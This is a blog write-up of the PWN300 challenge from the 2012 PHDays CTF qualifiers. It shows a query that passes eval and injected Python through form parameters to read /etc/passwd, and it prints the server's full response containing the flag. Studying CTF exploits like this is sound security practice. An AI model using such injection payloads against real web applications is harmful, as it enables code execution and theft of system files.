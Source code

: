 ```yaml
---
layout: post
title: "2012 PHDays Quals: PWN300 Writeup"
description: ""
category: security
tags: [phdays, phdays quals, ctf]
---
```


*This post is mirrored from my old blog.*

We were presented with a simple site. It was the admin control panel for the oppressive South Park PD. It allowed the cruel police of South Park to select a citizen, and one of three horrible actions. To teach them a lesson, we were to extract the flag from /etc/passwd.

Submitting the form submitted three parameters:  
actions  
choice  
human

We were given the sources, but I didn't look too hard at them. Chucking rubbish into the variables, we're very quickly able to get a python stack trace. With some more tinkering, we can find that whatever is included in "human" is passed to "actions" as an argument. The output of actions has to be a string, or the program fails.

The query I used to get the flag was:

	&actions=eval&choice=%00&human=str(file("/etc/passwd").read())

I never figured out what choice did, but changing it from a null byte seemed to break things, so I just left it.

The response:

	HTTP/1.1 200 OK
	Date: Sat, 15 Dec 2012 16:07:58 GMT
	Content-Length: 1485
	Content-Type: text/html
	Server: TwistedWeb/12.1.0
	
	# $FreeBSD: src/etc/master.passwd,v 1.42.2.1.2.2 2012/11/17 08:36:10 svnexp Exp $
	#
	root:*:0:0:Charlie &amp; flag -&gt; d9301a72ee12eabb2b913398a3fab50b:/root:/bin/csh
	toor:*:0:0:Bourne-again Superuser:/root:
	daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
	operator:*:2:5:System &amp;:/:/usr/sbin/nologin
	bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
	tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
	kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
	games:*:7:13:Games pseudo-user:/usr/games:/usr/sbin/nologin
	news:*:8:8:News Subsystem:/:/usr/sbin/nologin
	man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
	sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
	smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
	mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
	bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
	proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
	_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
	_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
	uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
	pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
	www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
	hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
	nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
	phdays:*:1001:1001:User &amp;:/home/phdays:/bin/sh</blockquote>